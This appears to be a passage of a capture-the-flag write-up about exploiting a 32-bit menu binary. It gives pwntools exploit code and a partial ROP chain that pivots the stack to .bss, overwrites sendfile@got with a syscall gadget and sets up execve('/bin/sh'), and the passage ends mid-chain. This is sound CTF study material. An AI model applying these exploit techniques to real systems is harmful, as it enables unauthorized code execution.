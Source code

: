 ```
++++++++++++
+   func   +
++++++++++++  // 2nd stage only can change the stack from this:
+  _start  +
++++++++++++
+   argv   +
++++++++++++
```

As you see now we can call `func(argv)` and return to `_start` safely.

```py
def callFunc(func: int, argv: int):
    p.sendafter(b"6. Logout.\n",b"5")
    p.send(
        p32(e.sym.main)+
        p32(0x0804901e)+ # pop ; ret
        p32(0x1337)+
        p32(func)
    )
    p.sendafter(b"6. Logout.\n",b"6")

    p.sendafter(b"6. Logout.\n",b"5")
    p.sendline(
        p32(e.sym._start)+
        p32(argv)
    )
    p.sendafter(b"6. Logout.\n",b"6")
```
At the first time, I had try to call `puts@plt(puts@got)` to leak the libc but it didn't work on the remote. I realized that they use `cat` to hadnle I/O
and timeout is 10 seconds:
```sh
#!/bin/bash
timeout 10 cat | env -i /app/main
```

So I tried to buid the rop chain on the .bss segment (by calling `magicMove(addr)`, `magicMove(addr+4)`, ....) 

and pivoting the stack to it ( by using the gadget `pop ebp ; leave ;ret `) .


This is my rop chain, I don't give the detail but I can tell you that I try to change `sendfile@got` point to `call DWORD PTR gs:0x10` (syscall) and
make `eax = 0xb , ebx = "/bin/sh", [ecx] = NULL and  edx = 0 ` so I can call `syscaLL_execve("/bin/sh",[NULL],NULL`) :

```python
rop = [
    p32(e.sym.magicMove),
    p32(0x0804901e), # pop ebp ; ret
    p32(0x804cf00),  # read(0,buf,16) -> /bin/sh

    p32(e.sym.read),
    p32(0x0804939a), # pop 3 ; ret
    p32(0),p32(e.got.sendfile),p32(1), # change to int 0x80

    p32(e.sym.read),
    p32(0x0804939a), # pop 3 ; ret
    p32(0),p32(0),p32(0), # set $edx = 0

    p32(0x0804939c), # pop ebp ; ret
    p32(0x804c2ec),
#0x804c2ec:
    p32(0x080492c2), # mov eax, dword ptr [ebp + 8] ; leave ; ret

```